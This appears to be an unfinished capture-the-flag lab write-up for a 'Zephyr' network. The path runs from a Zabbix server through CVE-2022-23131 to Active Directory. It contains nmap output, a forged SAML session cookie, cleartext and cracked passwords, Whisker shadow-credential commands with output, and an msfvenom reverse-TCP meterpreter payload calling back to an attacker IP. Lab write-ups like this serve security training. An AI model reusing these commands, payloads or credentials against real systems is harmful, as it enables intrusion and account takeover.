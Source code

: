 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 
- IP: `192.168.210.13`

# Findings
### Credentials
`FoundCREDs`

### Flags
- `ZEPHYR{Abu51ng_d3f4ul7_Func710n4li7y_ftw}`
## External
### Enumeration
```
PORT    STATE SERVICE  REASON         VERSION
443/tcp open  ssl/http syn-ack ttl 64 nginx 1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
| http-robots.txt: 2 disallowed entries
|_/ /zabbix/".
| http-methods:
|_  Supported Methods: GET HEAD POST
| ssl-cert: Subject: commonName=monitor.zsm.local/organizationName=Zephyr Managed Services/stateOrProvinceName=London/countryName=GB/localityName=London/organizationalUnitName=IT/emailAddress=itsupport@zsm.local
| Issuer: commonName=zsm-ZPH-SVRCA01-CA/domainComponent=zsm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-03-21T19:39:06
| Not valid after:  2032-03-18T19:39:06
| MD5:   0305:f283:731b:fda1:4a54:d983:e057:8b4a
| SHA-1: 0f34:e3b5:2b9b:964a:50bf:0ac2:dced:662b:29e0:5c4c
| -----BEGIN CERTIFICATE-----
| MIIF1zCCBL+gAwIBAgITXwAAAAUpbZqJ2/5fJAAAAAAABTANBgkqhkiG9w0BAQsF
| ADBJMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN6c20x
| GzAZBgNVBAMTEnpzbS1aUEgtU1ZSQ0EwMS1DQTAeFw0yMjAzMjExOTM5MDZaFw0z
| MjAzMTgxOTM5MDZaMIGeMQswCQYDVQQGEwJHQjEPMA0GA1UECBMGTG9uZG9uMQ8w
| DQYDVQQHEwZMb25kb24xIDAeBgNVBAoTF1plcGh5ciBNYW5hZ2VkIFNlcnZpY2Vz
| MQswCQYDVQQLEwJJVDEaMBgGA1UEAxMRbW9uaXRvci56c20ubG9jYWwxIjAgBgkq
| hkiG9w0BCQEWE2l0c3VwcG9ydEB6c20ubG9jYWwwggEiMA0GCSqGSIb3DQEBAQUA
| A4IBDwAwggEKAoIBAQDV9PHuszshhiDu9qGEODeRN9UcIIVd3coo/Er8qxbkP3ey
| 0twiNQ5HW7/bwnv9MM5N8VLY7MK5QfZw2lEhd2kVP83oci/GdKJ9MsKYan+6SuY6
| z6195xuLjSwrICDKUsv48MIk/6PQWxQUkHjtL+SZrbZQjGTmujaa+aBMnzdC9rm0
| a7V5EPrfPJOPuWolG7ax6n03q+znq2X1QDPWdYQNoYAgWkE+54aZJZvFzzlR4WhS
| LiSNEt1brhVNho284ienK0rTEkxsn2Njq05wk65uBayK6szSWcR94cSwy9JTf4sH
| CSXrae4fhexZacjR30aSW7tZNGLikTkJIWsB4rqPAgMBAAGjggJgMIICXDAdBgNV
| HQ4EFgQURXFfGvtIz8fvN52uKWY21wRhFjYwHwYDVR0jBBgwFoAUui9SQTQgaHow
| 772sfzDJhw6riRcwgdIGA1UdHwSByjCBxzCBxKCBwaCBvoaBu2xkYXA6Ly8vQ049
| enNtLVpQSC1TVlJDQTAxLUNBLENOPVpQSC1TVlJDQTAxLENOPUNEUCxDTj1QdWJs
| aWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9u
| LERDPXpzbSxEQz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/
| b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcIGCCsGAQUFBwEBBIG1
| MIGyMIGvBggrBgEFBQcwAoaBomxkYXA6Ly8vQ049enNtLVpQSC1TVlJDQTAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXpzbSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BAf8E
| BAMCBaAwPgYJKwYBBAGCNxUHBDEwLwYnKwYBBAGCNxUIht2iDILi1xeFoYUngoLo
| W4GtlRyBU4KL0geByZ5/AgFkAgEFMBMGA1UdJQQMMAoGCCsGAQUFBwMBMBsGCSsG
| AQQBgjcVCgQOMAwwCgYIKwYBBQUHAwEwDQYJKoZIhvcNAQELBQADggEBADqjrAB9
| bT4NYxLMTrGeCj2lxQROaKxi7FxThJMSlHgE0fhpsV7E1WX2CgRjNRxXjy94RXUw
| lS/yiZsTh7RjDDpeTz38SyxSQ8Je5x+Unnz92bBhNCS6T7FhNvcOWuir6oTQ4Dua
| g/tywnh8ZmESc+8jZE2/RSB07tozRfFt8NxMbT+zbIXrkgkp4gVysEM2254KszyN
| BomyNMOQYuKkK5trhW+A3XEYXI6JiwaaJFem+jG5UvdXVjHd0Vsblji2tHaJKJvy
| v1bVzaS+xdwGfxCTsyjLnHq2r/Bj+JCl4OJZ4fAobVs0Mo38UtiESC2z5qkIDLwf
| 8Rv29O+Glx+cGaY=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 0FBE700FD7D07EC8D30EF8B3AC261484
|_http-title: Zabbix
| tls-nextprotoneg:
|_  http/1.1

```
![](https://i.imgur.com/2P1UP7A.png)
https://github.com/Vulnmachines/Zabbix-CVE-2022-23131
https://github.com/Mr-xn/cve-2022-23131
![](https://i.imgur.com/avH3nEK.png)
```
eyJzYW1sX2RhdGEiOiB7InVzZXJuYW1lX2F0dHJpYnV0ZSI6ICJhZG1pbiJ9LCAic2Vzc2lvbmlkIjogImZlYTYyYzNlMmFmMDU1Mjk5NGRiM2I3OTExMGE3Y2U4IiwgInNpZ24iOiAiSWV5Wk1HTkZiYWpiRDlwNmliTUZxNEhXblNRMzFLRUFQUlZ1c1JDVmQ2RTY2dFBLci90ekJQWDRGZmNuMC9MOUltV1NrMEx4WTVoZHBXQlpkbDZacWc9PSJ9
```
![](https://i.imgur.com/18pi8ya.png)
![](https://i.imgur.com/EqDG2J1.png)
![](https://i.imgur.com/OdoqR9T.png)
![](https://i.imgur.com/mMGpi9Q.png)
### Gaining Access
![](https://i.imgur.com/z8jaAUz.png)

## Internal
### Enumeration
![](https://i.imgur.com/F8m4sW5.png)
![](https://i.imgur.com/qpt2Dxh.png)
![](https://i.imgur.com/jipjZBV.png)
![](https://i.imgur.com/3hknIuH.png)
![](https://i.imgur.com/PrYhnKl.png)
- ` zabbix : rDhHbBEfh35sMbkY `
- We Got marcus hash from the database and when we crack it ` marcus : !QAZ2wsx`
![](https://i.imgur.com/FL2gfd4.png)
- The user has `AddkeyCredentialLink` - we an work with shadowcredentials to get password.
```powershell
C:\> .\Whisker.exe add /target:ZPH-SVRMGMT1$
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password LTujXugT1RwTkPSO
[*] Searching for the target account
[*] Target user found: CN=ZPH-SVRMGMT1,CN=Computers,DC=zsm,DC=local
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 71a48933-fcb2-40a3-a5d8-10b2fe14fc12
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:ZPH-SVRMGMT1$ /certificate:MIIJ2AIBAzCCCZQGCSqGSIb3DQEHAaCCCYUEggmBMIIJfTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb3DQEMCgECoIIE/jCCBPowHAYKKoZIhvcNAQwBAzAOBAhhNphvFjj5EgICB9AEggTYhA0QOTN+GmUO7Bq868+x8kZgdBvYNPki

```
- Now am the machine, so i have the machines power, The machine can add members to `general memeber`, then i can access the user jamie
- ![](https://i.imgur.com/Lg5mUyA.png)
 - Boom
![](https://i.imgur.com/Lgfh1nn.png)
```
~/C/H/P/z/I/ZABBIX > 10.10.14.3 $ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=445 -f elf -o rex.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: rex.bin

error finding the group identity 'CA Managers' : Exception calling "FinfByidentity" with "2" Arguments : "An Operation error occurred."
```
![](https://i.imgur.com/tbw8jGt.png)

### Gaining Access


### Maintaining Access


# Random Notes